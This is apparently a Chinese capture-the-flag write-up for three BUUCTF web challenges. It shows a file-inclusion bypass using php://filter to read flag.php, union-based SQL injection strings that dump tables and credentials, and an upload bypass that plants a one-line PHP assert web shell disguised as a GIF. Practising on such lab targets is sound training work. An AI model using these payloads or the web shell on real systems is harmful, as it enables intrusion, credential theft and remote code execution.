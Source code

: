 ## [极客大挑战 2019]Secret File

`代码审计`

找到代码审计点

```
http://76976e53-a4e7-4314-9cbe-bedaeeb61700.node4.buuoj.cn:81/secr3t.php
```

```php
<html>
    <title>secret</title>
    <meta charset="UTF-8">
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
</html>
```

发现没有过滤`php://filter`

直接使用`php://filter`读取`flag.php`即可获取`flag`

```
secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php
```

## [极客大挑战 2019]LoveSQL

正常回显`联合注入`

```sql
?username=1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1
?username=1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name="l0ve1ysq1"%23&password=1
?username=1'union select 1,2,group_concat(id,username,password) from l0ve1ysq1%23&password=1
```

## [极客大挑战 2019]Upload

上传`.phtml`

`Content-Type: image/gif`

```
GIF89a
<script language='php'>assert($_REQUEST[1]);</script>
```

